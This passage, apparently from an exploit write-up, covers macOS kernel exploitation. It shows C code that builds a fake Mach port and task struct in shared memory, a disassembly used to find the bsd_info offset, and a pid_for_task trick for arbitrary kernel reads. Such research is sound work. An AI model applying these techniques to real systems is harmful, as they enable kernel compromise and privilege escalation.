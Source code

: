 ```c
typedef struct
{
    struct {
        kptr_t data;
        uint32_t type;
        uint32_t pad;
    } ip_lock; // mutex
    uint32_t ref_count;
    uint8_t pad[OFF_TASK_BSD_INFO - 3 * sizeof(uint32_t) - sizeof(kptr_t)];
    kptr_t bsd_info;
} ktask_t;
```

`OFF_TASK_BSD_INFO` is the offset of the `bsd_info` field in the kernel's task struct, which can be grabbed from the disassembly of `get_bsdtask_info` (here `0x390`):

```
;-- _get_bsdtask_info:
0xffffff80002bccd0      55             push rbp
0xffffff80002bccd1      4889e5         mov rbp, rsp
0xffffff80002bccd4      488b87900300.  mov rax, qword [rdi + 0x390]
0xffffff80002bccdb      5d             pop rbp
0xffffff80002bccdc      c3             ret
```

Now after moving `evg` for the last time, we can zero out the second and third page of our shared memory (I'm avoiding the first page just in case the kernel writes anything there), and initialise the two structures like this (where `shmem_addr` and `shmem_kern` and the userland and kernel addresses of the shared memory, respectively):

```c
kport_t *kport = (kport_t*)(shmem_addr +     pagesize);
ktask_t *ktask = (ktask_t*)(shmem_addr + 2 * pagesize);

kport->ip_bits = 0x80000002; // IO_BITS_ACTIVE | IOT_PORT | IKOT_TASK
kport->ip_references = 100;
kport->ip_lock.type = 0x26;
kport->ip_messages.port.receiver_name = 1;
kport->ip_messages.port.msgcount = MACH_PORT_QLIMIT_KERNEL;
kport->ip_messages.port.qlimit   = MACH_PORT_QLIMIT_KERNEL;
kport->ip_kobject = shmem_kern + 2 * pagesize;
kport->ip_srights = 99;

ktask->ref_count = 100;
```

The reference and right counts are just arbitrary numbers high enough to make sure no deallocation is attempted. The two `MACH_PORT_QLIMIT_KERNEL` are there to prevent any accidental message being sent to the port (by simulating a full message queue), which would attempt to dereference the pointer `ip_messages.klist.messages`, which we don't set. Anything else should be fairly straightforward. Now in order to read 4 bytes from an arbitrary kernel address, we merely need to set `bsd_info` to the address we want minus `0x10` bytes (because that's the offset the `pid` field has in `struct proc`) and call `pid_for_task` on it.
